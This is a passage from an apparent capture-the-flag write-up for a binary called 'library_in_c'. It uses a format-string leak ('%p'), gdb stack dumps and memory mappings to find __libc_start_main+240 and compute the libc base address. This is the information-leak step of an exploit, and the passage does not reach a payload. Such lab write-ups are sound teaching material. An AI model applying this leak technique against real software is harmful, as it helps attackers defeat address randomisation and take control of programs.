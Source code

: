 ```
0x7fffffffe650:	0x00007fffffffe740	0xb87f2a8ed601f300
0x7fffffffe660:	0x0000000000400890	0x00007ffff7a2d830
0x7fffffffe670:	0x0000000000000001	0x00007fffffffe748
0x7fffffffe680:	0x00000001f7ffcca0	0x0000000000400747
0x7fffffffe690:	0x0000000000000000	0xecf9cfed110ca862
0x7fffffffe6a0:	0x0000000000400660	0x00007fffffffe740
```

Great! The pointer at `0x7fffffffe668` looks close to that of `__libc_start_main`. Doing the subtraction in python confirms our suspicions. The address is that of `<__libc_start_main+240>`. 

```
root@b1a0c5b0df97 /pwn# python
Python 2.7.12 (default, Oct  8 2019, 14:14:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x00007ffff7a2d830 - 0x7ffff7a2d740
240
```

Keep in mind that even though the libc base address is randomized because of the PIE, all of the offsets are still the same. Since `__libc_start_main` is in libc, knowing its address can effectively give us the address to anything else in libc. Now we can find the offset from `<__libc_start_main+240>` to libc base. 

```
(gdb) set environment LD_PRELOAD ./libc.so.6
(gdb) b *0x00000000004007fd
Breakpoint 1 at 0x4007fd
(gdb) r
Starting program: /pwn/library_in_c 
Welcome to the LIBrary in C!
What is your name?
%p                    
Why hello there 0x7fffffffbf20

Breakpoint 1, 0x00000000004007fd in main ()
(gdb) info proc mappings
process 473
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /pwn/library_in_c
            0x600000           0x601000     0x1000        0x0 /pwn/library_in_c
            0x601000           0x602000     0x1000     0x1000 /pwn/library_in_c
            0x602000           0x623000    0x21000        0x0 [heap]
      0x7ffff7a0d000     0x7ffff7bcd000   0x1c0000        0x0 /pwn/libc.so.6
      0x7ffff7bcd000     0x7ffff7dcd000   0x200000   0x1c0000 /pwn/libc.so.6
      0x7ffff7dcd000     0x7ffff7dd1000     0x4000   0x1c0000 /pwn/libc.so.6
      0x7ffff7dd1000     0x7ffff7dd3000     0x2000   0x1c4000 /pwn/libc.so.6
      0x7ffff7dd3000     0x7ffff7dd7000     0x4000        0x0 
      0x7ffff7dd7000     0x7ffff7dfd000    0x26000        0x0 /lib/x86_64-linux-gnu/ld-2.23.so
      0x7ffff7ff4000     0x7ffff7ff7000     0x3000        0x0 
      0x7ffff7ff7000     0x7ffff7ffa000     0x3000        0x0 [vvar]
      0x7ffff7ffa000     0x7ffff7ffc000     0x2000        0x0 [vdso]
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x25000 /lib/x86_64-linux-gnu/ld-2.23.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x26000 /lib/x86_64-linux-gnu/ld-2.23.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
(gdb) x __libc_start_main
0x7ffff7a2d740 <__libc_start_main>:	0x55415641
(gdb) x/i puts
0x4005f0 <puts@plt>:	jmp    QWORD PTR [rip+0x200a22]        # 0x601018
```
